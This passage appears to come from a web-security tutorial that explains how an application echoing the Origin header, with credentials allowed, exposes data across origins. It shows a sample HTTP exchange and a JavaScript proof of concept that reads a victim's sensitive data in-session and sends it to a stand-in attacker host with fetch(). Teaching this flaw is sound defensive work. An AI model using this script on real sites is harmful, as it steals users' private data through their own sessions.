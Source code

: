 Some applications need to provide access to a number of other domains. Since maintaining a list of allowed domains requires an ongoing effort, many take the easy route which adds more risk in creating mistakes that introduces a vulnerability.

One way developers do this is by reading the `Origin` HTTP header from requests and includes a response header stating that the requesting origin is allowed. So if an attacker adds an `Origin` header to a request or modifies its value like the following:
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://attacker-owned-website.com
Cookie: sessionid=...
```
The server will then send a response like the following:
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker-owned-website.com
Access-Control-Allow-Credentials: true
...
```
These headers state that access is allowed from the requesting domain (`attacker-owned-website.com`) and that the cross-origin requests can include cookies (`Access-Control-Allow-Credentials: true`) and so will be processed in-session.

Because the application accepts arbitrary origins, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information, an attacker can retrieve these information by placing a script like the following on their website:
```js
var xhr = new XMLHttpRequest();
var url = "https://vulnerable-website.com"

xhr.onreadystatechange = function () {
	if (xhr.readyState == XMLHttpRequest.DONE) {
		fetch("https://attacker-owned-website.com/log?key=" + xhr.responseText)
	}
}
xhr.open("GET", url + "/sensitiveData", true);
xhr.withCredentials = true;
xhr.send(null)
```